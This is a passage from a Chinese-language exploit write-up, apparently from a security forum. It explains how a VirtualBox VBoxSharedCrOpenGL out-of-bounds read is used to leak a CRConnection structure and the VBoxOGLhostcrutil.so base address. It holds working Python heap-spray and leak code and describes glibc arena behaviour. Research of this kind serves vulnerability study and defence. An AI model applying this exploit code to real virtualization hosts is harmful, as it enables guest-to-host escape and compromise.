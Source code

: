 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-17959d71ee2be2de49e8bdec345bb37e83dc29ed.png)

泄露 CRConnection 结构体会稍微复杂一些，相关代码如下：

```python
    leak_clients = []
    leak_success = False;
    while not leak_success:
        msg = nop_msg()
        buf_ids = []
        for i in range(60):
            buf_ids.append(alloc_buf(client, 0x298, msg))

        for i in range(0, 15):
            leak_client = hgcm_connect("VBoxSharedCrOpenGL")
            leak_clients.append(leak_client)

        msg = make_leak_msg(0x100000000-0x9f0 + 0x10)
        result = crmsg(client, msg, 0x298)

        for idx in buf_ids:
            hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [idx, "A"*0x298, 0])

        for leak_client in leak_clients:
            try:
                hgcm_disconnect(leak_client)
            except:
                pass

        if "\x7f\x00\x00" in result:
            leak = unpack('<Q', result[16:24])[0]
            if (leak%0x1000 == 0x9d0):
                leak_success = True
                break
```

大概思路：

1. CRConnection 结构体的大小为 0x298 字节，首先通过 alloc\_buf 申请 60 个 0x298 的 pSvcBuffer-&gt;pData，消耗 arena 中不连续的 0x298 chunk.
2. 通过 hgcm\_connect 分配 15 个 CRConnection 结构体，期望此时各个 CRConnection 结构体虚拟地址连续
3. 同 crmsg 触发漏洞，触发漏洞的 pSvcBuffer-&gt;pData 的大小也为 0x298，期望 **pData 和 CRConnection 挨着**，然后往前越界读获取 **VBoxOGLhostcrutil.so 的地址**.
4. 如果泄露失败，回到第 1 步重试.

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-fbeac26421419beb9b4cc0a4a5456954f40e05da.png)

通过 之前的介绍\[^1\] 可知，Guest OS 和 `VBoxSharedCrOpenGL`​​​ 服务通信会涉及三个线程的通信，这其中又会涉及不同线程的多次内存申请和释放，这些其他线程内存申请和释放会对堆布局产生影响吗？答案是可能会，但是对于 VirtualBox 来说\*\*\*\*\*基本没影响。

VirtualBox 实际会调用 glibc 的 malloc、free 等函数进行内存的申请和释放，glibc 使用 arena （`struct malloc_state`​）来管理内存，我们比较熟悉的可能是 main\_arena，在多线程进程中 glibc 会再根据 CPU 核数分配若干个 dynamic arena，这些 arena 通过双向链表相互关联，如下图所示：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-6571b7cb6e61f433b546a4fb8092912df924ffb9.png)
